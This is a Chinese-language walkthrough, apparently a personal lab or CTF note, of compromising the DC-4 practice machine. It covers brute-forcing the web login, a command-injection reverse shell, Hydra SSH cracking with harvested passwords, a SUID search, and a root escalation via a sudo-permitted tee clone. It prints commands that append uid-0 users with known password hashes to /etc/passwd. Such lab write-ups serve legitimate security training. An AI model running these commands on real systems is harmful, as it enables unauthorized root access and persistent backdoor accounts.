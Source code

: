 # DC4  
## 简述
使用弱密码进入网页当中，发现命令执行的漏洞，反弹shell 翻其中的数据切换用户 使用命令将新建的用户信息写入/etc/passwd 文件  

## 发现和寻找漏洞 
如何进入网页  
使用burpsuite进行爆破  
```
字典  /usr/share/wordlists/rockyou.txt(bp打开直接卡死)  
字典 /usr/share/john/password.lst  
```

注意在破解的时注意查看其中的用户登录页面，在这个靶机上写了admin登录就不需要使用爆破用户名了  
![20191129154556.png](https://i.loli.net/2019/11/29/IbADzQHscxat5pm.png)  
直接使用burpsuite进行爆破了  或者可以使用Hydra进行爆破(爆破的工具选择)  
![20191129154731.png](https://i.loli.net/2019/11/29/cxmwdD8o1lQaNJy.png)
### WEB漏洞  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201163827.png)
其中存在web的命令执行漏洞，直接bp抓包改包  
![20191129155022.png](https://i.loli.net/2019/11/29/ogYFkiqBwZ3hzOv.png)
得到shell  

![20191129155053.png](https://i.loli.net/2019/11/29/yP5orOCk2nW3sVg.png) 



##  寻找信息  
在/var/mail 当中的右键存储了密码  
在本地备份当中存储了之前的密码  
![20191129155243.png](https://i.loli.net/2019/11/29/Mgi3B9RaJclXdvV.png)  
拿到一个权限之后首先要做的事情就是寻找有用的信息 
现在得到一个密码本使用hydra进行破解  
``` 
hydra -l  jim -P 密码本 ssh@ip 
```   


得到其中的密码  
![20191129155809.png](https://i.loli.net/2019/11/29/ZzFQsMg2LjJKUqt.png)


### 提权   
```
find / -perm -u=s -type f 2>/dev/null  
```
![20191129160117.png](https://i.loli.net/2019/11/29/JYOw46HK2oZUDb7.png)
其中的数据可以看到这个sh脚本有执行的权限，正好看看是否能够对该脚本进行变化  

![20191129160422.png](https://i.loli.net/2019/11/29/YvqeDoE5Z7VucHw.png)
正好权限也挺足的，直接往其中添加/etc/passwd 的内容或者是直接/bin/sh 都是可以的  
**是否能直接拿到权限？** 

拿到jim权限之后
**继续收集信息**  
![20191129161559.png](https://i.loli.net/2019/11/29/YvIUzma6WfwCPy7.png)
直接拿到charles的密码 直接使用密码进行登录  
sudo -l 查看密码  
![20191129161809.png](https://i.loli.net/2019/11/29/NjV6wsaZGgl4iAR.png)
其中发现可以不用sudo使用teehee这个命令  
teehee 就相当于把缓冲区当中的数据写入到文件当中，利用这个特性新建一个用户写入我们的用户再进行登录就可以完成了  

**root提权方式**  
写入用户登录信息在/etc/passwd 当中的文件
但是这个文件一般是必须会用su权限的，这个时候时候使用sudo-l 查看的登录不需要密码的s命令就行了  
 echo "hack::0:0:::/bin/bash" >>/etc/passwd
  
重写的时候发现有问题就直接这样来吧  
```
创建有用户名和密码的用户进入passwd文件 
echo 'pavan:$1$pavan$qv9M3fBmtDPrOTBZflNl81:0:0::/root:/bin/bash' >> /tmp/raj
sudo test /tmp/raj /etc/passwd
su pavan  
对应的密码是123456  
```
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201164655.png)
## 总结  
简单的弱密码加上命令执行漏洞  
服务器当中存在信息获取两个用户的密码  
最后使用带有su权限的命令往/etc/passwd 当中加入用户  
### 操作  
提权  find / -perm -u=s -type f 2>/dev/null 
### 疑问  
爆破当中如果存在验证码应该怎么办？  
为什么无密码之前行后面又不行了？








